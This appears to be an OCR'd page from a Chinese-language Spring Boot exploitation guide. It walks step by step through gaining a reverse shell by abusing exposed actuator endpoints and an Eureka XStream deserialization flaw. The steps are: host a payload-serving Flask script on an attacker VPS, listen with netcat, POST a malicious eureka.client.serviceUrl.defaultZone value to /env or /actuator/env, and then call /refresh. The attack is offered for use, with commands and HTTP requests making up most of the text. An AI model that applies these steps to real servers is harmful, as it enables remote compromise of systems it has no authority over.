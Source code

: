 Eureka服务属性被设置为恶意的外部Eureka server
URL地址时，通过/refresh会触发目标机器请求远程URL,Eureka server
URL可通过在/env处POST数据进行更改



##### 利用方法

**步骤一:  架设响应Xstream payload的网站**

提供一个依赖 Flask 并符合要求的 [python 脚本示例](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)，作用是利用目标 Linux 机器上自带的 python 来反弹shell。

使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。



**步骤二：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvvp 监听端口
```



**步骤三：设置 eureka.client.serviceUrl.defaultZone 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```



**步骤四：刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```
